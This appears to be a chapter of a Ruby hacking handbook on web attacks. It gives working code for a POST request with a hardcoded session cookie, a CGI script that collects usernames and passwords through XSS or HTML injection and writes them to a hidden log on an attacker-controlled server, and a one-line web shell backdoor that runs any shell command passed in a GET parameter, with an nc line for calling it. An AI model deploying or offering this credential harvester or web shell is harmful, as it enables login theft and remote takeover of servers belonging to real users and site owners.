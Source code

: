 # Chapter 0x5 | Web KungFu

## Send HTTP Post request with custom headers
Here the post body from a file
```ruby
require 'net/http'
require 'uri'


uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
   'Referer' => 'http://example.com/Pages/SomePage.aspx',
   'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
   'Connection' => 'keep-alive',
   'Content-Type' =>'application/x-www-form-urlencoded'
 }
post = File.read post_file   # Raw Post Body's Data
http    = Net::HTTP.new(uri.host, uri.port)
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body
```

## CGI
### Get info - for XSS/HTMLi exploitation

Add the following to cat /etc/apache2/sites-enabled/[SITE] then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby -w
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time
  f.puts "#{URI.decode user}:#{URI.decode pass}"
  f.puts cgi.remote_addr
  f.puts cgi.referer
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent ppl from browsing the log file
```

### Web Shell - command execution via GET

if you have a server that supports ruby CGI, you can use the follwoing as backdoor
```ruby
#!/usr/bin/env ruby
# echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```





















sssssssssssssssssssssss
